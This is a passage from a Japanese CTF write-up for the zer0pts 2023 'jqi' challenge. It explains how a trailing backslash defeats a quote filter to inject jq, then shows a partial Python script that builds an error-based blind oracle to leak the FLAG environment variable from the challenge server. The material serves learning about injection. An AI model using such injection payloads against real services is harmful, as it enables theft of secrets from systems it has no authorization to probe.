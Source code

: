 ```javascript

    if (conds.length > 0) {
        reply.send({ error: 'sorry, you cannot use filters in demo version' });
    } else {
        reply.send(result);
    }
});
```

### 解法

```javascript
        // check if the query is trying to break string literal
        if (str.includes('"') || str.includes('\\(')) {
            return reply.send({ error: 'hacking attempt detected' });
        }
```
によって、文字列からの脱出によるインジェクションを対策していますが、`\`を末尾に置くことで`\"`になり脱出が可能です。

一般的なblind SQLi攻撃の考え方と同様に攻撃を組むことで攻撃できそうです。jqの仕様には詳しくないため、ドキュメント等を漁りながらオラクルを構成しました。都合が良いことに、jq実行時にエラーが発生するかどうかでレスポンス内容が変化するためerror-basedなオラクルができます[^jqi-01]。

[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。

使ったjqの仕様は以下のとおりです。

- `#`でコメントアウト
- `implode`による任意文字列の生成
    - validationで`"`の文字種が利用できなかったため
- オラクル: `if (env.FLAG | startswith(...)) then error({make_str('x')}) else 0 end`
    - `env.FLAG | startswith(...)`によるフラグのprefix判定
    - `error`によるランタイムエラーの発生

なお、`data.json`には`[0-9a-z{}]`の文字種がそろっており、`ascii_upcase`と組み合わせることで任意文字列の生成が可能でした。でもこの方法は面倒でやりたくないなあと思っていたところ、`implode`を発見して楽ができました。

### 攻撃

```python
import httpx
import string

# BASE_URL = "http://localhost:8300"
BASE_URL = "http://jqi.2023.zer0pts.com:8300"

CHARS = "}_" + string.ascii_letters + string.digits


def make_str(xs: str) -> str:
    return "(" + "+".join([f"([{ord(x)}] | implode)" for x in xs]) + ")"


def is_ok(prefix: str) -> bool:
    res = httpx.get(
        f"{BASE_URL}/api/search",
        params={
            "keys": "name",
            "conds": ",".join([
                "\\ in name",
                f"))] + [if (env.FLAG | startswith({make_str(prefix)})) then error({make_str('x')}) else 0 end] # in name"
            ]),
        },
    )
    return res.json()["error"] == "something wrong"


```

[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。